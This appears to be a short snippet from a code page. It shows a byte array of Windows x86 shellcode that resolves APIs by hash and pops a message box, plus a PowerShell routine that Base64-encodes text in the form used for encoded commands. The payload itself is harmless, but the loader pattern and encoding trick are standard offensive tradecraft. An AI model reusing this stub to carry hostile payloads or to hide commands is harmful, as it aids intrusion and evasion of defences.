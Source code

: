 **Message Box Shellcode:**
`0xd9,0xeb,0x9b,0xd9,0x74,0x24,0xf4,0x31,0xd2,0xb2,0x77,0x31,0xc9,0x64,0x8b,0x71,0x30,0x8b,0x76,0x0c,0x8b,0x76,0x1c,0x8b,0x46,0x08,0x8b,0x7e,0x20,0x8b,0x36,0x38,0x4f,0x18,0x75,0xf3,0x59,0x01,0xd1,0xff,0xe1,0x60,0x8b,0x6c,0x24,0x24,0x8b,0x45,0x3c,0x8b,0x54,0x28,0x78,0x01,0xea,0x8b,0x4a,0x18,0x8b,0x5a,0x20,0x01,0xeb,0xe3,0x34,0x49,0x8b,0x34,0x8b,0x01,0xee,0x31,0xff,0x31,0xc0,0xfc,0xac,0x84,0xc0,0x74,0x07,0xc1,0xcf,0x0d,0x01,0xc7,0xeb,0xf4,0x3b,0x7c,0x24,0x28,0x75,0xe1,0x8b,0x5a,0x24,0x01,0xeb,0x66,0x8b,0x0c,0x4b,0x8b,0x5a,0x1c,0x01,0xeb,0x8b,0x04,0x8b,0x01,0xe8,0x89,0x44,0x24,0x1c,0x61,0xc3,0xb2,0x08,0x29,0xd4,0x89,0xe5,0x89,0xc2,0x68,0x8e,0x4e,0x0e,0xec,0x52,0xe8,0x9f,0xff,0xff,0xff,0x89,0x45,0x04,0xbb,0x7e,0xd8,0xe2,0x73,0x87,0x1c,0x24,0x52,0xe8,0x8e,0xff,0xff,0xff,0x89,0x45,0x08,0x68,0x6c,0x6c,0x20,0x41,0x68,0x33,0x32,0x2e,0x64,0x68,0x75,0x73,0x65,0x72,0x30,0xdb,0x88,0x5c,0x24,0x0a,0x89,0xe6,0x56,0xff,0x55,0x04,0x89,0xc2,0x50,0xbb,0xa8,0xa2,0x4d,0xbc,0x87,0x1c,0x24,0x52,0xe8,0x5f,0xff,0xff,0xff,0x68,0x30,0x72,0x58,0x20,0x68,0x4c,0x75,0x63,0x74,0x31,0xdb,0x88,0x5c,0x24,0x06,0x89,0xe3,0x68,0x58,0x20,0x20,0x20,0x68,0x65,0x72,0x67,0x6f,0x68,0x74,0x20,0x65,0x6d,0x68,0x6f,0x72,0x20,0x65,0x68,0x4c,0x75,0x63,0x74,0x31,0xc9,0x88,0x4c,0x24,0x10,0x89,0xe1,0x31,0xd2,0x52,0x53,0x51,0x52,0xff,0xd0,0x31,0xc0,0x50,0xff,0x55,0x08`

**PowerShell Base64**
```
$Text = ""
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
